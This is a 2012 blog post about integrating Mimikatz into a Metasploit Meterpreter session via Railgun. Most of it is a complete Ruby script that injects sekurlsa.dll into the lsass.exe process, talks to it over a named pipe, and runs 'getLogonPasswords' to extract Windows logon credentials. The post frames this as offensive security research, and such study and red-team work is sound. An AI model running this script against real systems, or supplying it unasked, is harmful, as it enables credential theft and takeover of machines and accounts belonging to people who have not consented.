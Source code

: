 ---
author: mubix
comments: true
date: 2012-06-15 14:55:55+00:00
layout: post
title: Integration of Mimikatz into Metasploit Stage1
categories:
- metasploit
- mimikatz
- railgun
---

One of the powers of Metasploit is it's ability to stay memory resident. Through the use of reflective DLL injection even keeping new functionality the attack loads from ever touching disk. Well, the first thing I wanted to do with Mimikatz is get to that same level.

Here is my first step to that end; a railgun based Meterpreter script. Now before going all reflective with it I needed to understand how the DLL worked. Thankfully [@gentilkiwi](https://twitter.com/gentilkiwi) stepped in and stopped my head from getting bloody. In this first step we will be removing the need for the mimikatz.exe binary, still needing the DLL to be uploaded, but we'll get there in the subsequent posts.

Ignore the do_cmd for now and I stepped through [remote DLL injection here](/blog/2011/5/30/remote-dll-injection-with-meterpreter.html). So the first odd lines is 

```ruby
handle = client.railgun.kernel32.CreateNamedPipeW('\\\\.\\pipe\\kiwi\\mimikatz', 'PIPE_ACCESS_DUPLEX', 'PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT', 1, 0, 0, 30000,nil)['return']
connectedlsass = client.railgun.kernel32.ConnectNamedPipe(handle,nil)
```

Essentially these connect to the [Named Pipe](http://en.wikipedia.org/wiki/Named_pipe) that the sekurlsa.dll uses to talk to the mimikatz.exe in it's normal operation. Then we just use the windows API call "ReadFile" from there on out.

```ruby
client.railgun.kernel32.ReadFile(handle,248,248,4,nil)
```

One of the draw backs to doing this all remotely is that Railgun doesn't have the memory management insight like the Windows OS does. Being able to know when pipes are ready to be read or written to is  a bit of a challenge and the call hangs your IRB / meterpreter session if you get it wrong. I've overcome this for the initial "banner" that sekurlsa writes by knowing the exact length (248 bytes in this case) of the text. For subsequent commands like "ping" and "getLogonPasswords" I simply have to read one character at a time, which is a slow process but removes any chance of getting hung. (Two bytes for every Unicode character)

If you have any questions on how/why this works or have a better way please leave your comments and questions below or hit me up on twitter!
  
Meterpreter Script:

```ruby    
def do_cmd(handle,cmd)
	ucommand = Rex::Text.to_unicode(cmd)
	sendcmd = client.railgun.kernel32.WriteFile(handle,ucommand,ucommand.size,4,nil)
	good2go = false
	newline = false
	readstring = []
	while good2go == false
		# Have to pull data 1 unicode character at a time
		# this is because the pipe won't write or read if
		# too much was written or read by the "client" (us)
		pull = client.railgun.kernel32.ReadFile(handle,2,2,4,nil)
		# Check to see if our end of read check is there: n000 @00
		if pull['lpBuffer'] == "@00" and newline == true
			good2go = true
		else
			readstring << pull['lpBuffer']
		end
		
		# Ready the newline var for previous check on next loop
		if pull['lpBuffer'] == "n00"
			newline = true
		else
			newline = false
		end
	end
	
	print_status(readstring.join(""))
end

print_status("x86 Detected - Using x86 mimikatz")
handle = client.railgun.kernel32.CreateNamedPipeW('\\\\.\\pipe\\kiwi\\mimikatz', 'PIPE_ACCESS_DUPLEX', 'PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT', 1, 0, 0, 30000,nil)['return']
print_status("Handle: #{handle}")
framework.threads.spawn('injectlsass',false) {
	pid = client.sys.process['lsass.exe']
	print_status("LSASS located at PID: #{pid}")
	pathtomimi = "C:\\sekurlsa.dll"

	pay = client.framework.payloads.create("windows/loadlibrary")
	pay.datastore["DLL"] = pathtomimi
	pay.datastore["EXITFUNC"] = 'thread'

	raw = pay.generate
	targetprocess = client.sys.process.open(pid, PROCESS_ALL_ACCESS)
	mem = targetprocess.memory.allocate(raw.length + (30024))
	targetprocess.memory.write(mem, raw)
	sleep(2)
	targetprocess.thread.create(mem, 0)
	print_status("Successfully Injected into LSASS")
}
print_status("Waiting for LSASS injection to complete")
connectedlsass = client.railgun.kernel32.ConnectNamedPipe(handle,nil)
print_status("Mimikatz has called home, ready for command")
sleep(2)
print_status("Reading banner")
client.railgun.kernel32.ReadFile(handle,248,248,4,nil)
print_status("Doing a quick ping to make sure things are working...")
do_cmd(handle,'ping')
print_status("If you made it this far it worked, doing getLogonPasswords")
do_cmd(handle, 'getLogonPasswords')
```
